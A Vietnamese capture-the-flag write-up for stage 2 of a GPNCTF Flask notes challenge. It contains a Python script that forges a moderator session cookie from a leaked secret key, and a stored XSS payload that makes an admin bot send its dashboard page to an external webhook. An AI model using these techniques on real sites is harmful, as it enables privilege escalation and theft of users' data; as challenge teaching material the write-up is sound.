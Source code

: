![image](https://github.com/user-attachments/assets/f1ade6e6-4721-44e0-85c0-3fdd8bc403fa)

# **ANALYZE**

Đến với Stage 2 , mang theo  `FLASK_APP_SECRET_KEY` mà ta nhận được từ STAGE_1

Ta sẽ đi đọc trong source code để tìm manh mối về `STAGE_2` và `FLASK_APP_SECRET_KEY`

Thông tin đầu tiên mà ta có được là : Flag được nằm trong 1 bài note chỉ có admin hoặc mod mới có thể xem được .

```
await page.type('textarea[name="content"]', `Here you got some juicy flag: ${FLAG_STAGE_2}`);
```

```
@app.route('/dashboard')
@login_required
def dashboard():
    if is_mod():
        return redirect(url_for('moderator'))

    user_notes = [(nid, notes[nid]['title'], notes[nid]['content']) for nid in notes if notes[nid]['owner'] == g.user]
```

Trong main.py, đoạn mã sau cho thấy Flask lưu session thông qua session['user']:
```
session['user'] = {
    'username': username,
    'role': 'admin' if hashlib.sha512(password.encode()).hexdigest() == ADMIN_PASSWORD_HASH else 'user'
}
```

→ Tức là sau khi đăng nhập, Flask sẽ lưu nội dung session dưới dạng:

```
{
  "user": {
    "username": "tên bạn nhập",
    "role": "user" hoặc "admin"
  }
}
```
Flask sẽ tự động serialize, sign và mã hóa thông tin này thành cookie tên là session.

Flask dùng thư viện itsdangerous kết hợp với secret key:

```
app.secret_key = os.environ.get("FLASK_APP_SECRET_KEY")
```

→ Mỗi session cookie sẽ được Flask ký bằng FLASK_APP_SECRET_KEY.


Và ta đã có đã có FLASK_APP_SECRET_KEY từ .env (Stage 1), ta hoàn toàn có thể tạo cookie có role "moderator" hoặc "admin".


Thông qua hành vi xử lý quyền:

```
def is_mod():
    return g.user.get('role') in ['admin', 'moderator']
```
  
→ Chỉ cần trong session có user.role = "moderator" là đủ để:

Vượt qua @moderator_required

Truy cập /report/<note_id>, /moderator


# **EXPLOIT**

Cuối cùng thì script để làm giả cookie sẽ là : 

```
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

# B1: Setup Flask giả để dùng serializer giống thật
app = Flask(__name__)
app.secret_key = "9f310d75c84c1aba65fa87fec8980f7c43b55dd274b41e3512777981ca37ea1d606e626c24248a0d39957c2bb94c9493f410"

# B2: Lấy công cụ ký
class SimpleSecureCookie(SecureCookieSessionInterface):
    def get_signing_serializer(self, app):
        return super().get_signing_serializer(app)

serializer = SimpleSecureCookie().get_signing_serializer(app)

# B3: Tạo nội dung session giả
cookie = serializer.dumps({
    "user": {
        "username": "canheeu",
        "role": "moderator"
    }
})

print("Final signed cookie:", cookie)
```

Sau khi đổi cookie thì ta đã hoàn toàn leo thang lên được quyền mod 

![image](https://github.com/user-attachments/assets/6b6624e3-c57e-4cb2-a2f8-3b9c911d4ba8)


Và tôi sẽ bắt đầu tìm hiểu về tính năng report , khi tôi gửi 1 chuỗi bất kì thì nhận lại được là : 

![image](https://github.com/user-attachments/assets/e362ef99-3b2b-4738-9f83-3fbf3176be69)

Và cuối cùng , chúng ta sẽ chèn đoạn payload này vào phần report để dụ cho bot đọc và tiết lộ thông tin cho ta 
Vì chúng ta biết được bài viết chứa flag nằm ở dashboard của bot

```
<script>
fetch('/dashboard')
  .then(r => r.text())
  .then(t =>
    fetch('https://webhook.site/c47162bb-f1c9-4a44-88ce-1703bcdad082', {
      method: 'POST',
      mode: 'no-cors',
      body: btoa(t)
    })
  );
</script>
```
Sau khi gửi xong , thì ta nhận được gói tin bắn về webhook như bên dưới , ta đen đoạn base64 này lên cyberchef thì ta được 1 đoạn mã HTML chứa thông tin

ở dashboard và chứa flag.

và ta còn biết được cả username của admin_bot , có thể hữu ích cho các stage sau : 

```
   >I_am_the_admin_4a65b80fe0c5c3b407f6d3fedd563848fc1d8d0431e3a26af47ecf8ef83bbe5a
```

![image](https://github.com/user-attachments/assets/65dabc53-8c80-4e70-8b47-d258f5fc0104)

![image](https://github.com/user-attachments/assets/7fe99cbb-ae73-4cba-b7d0-5cf3d8479ce6)

# **FLAG**

```
GPNCTF{forge_d15_JU1CY_moD}
```

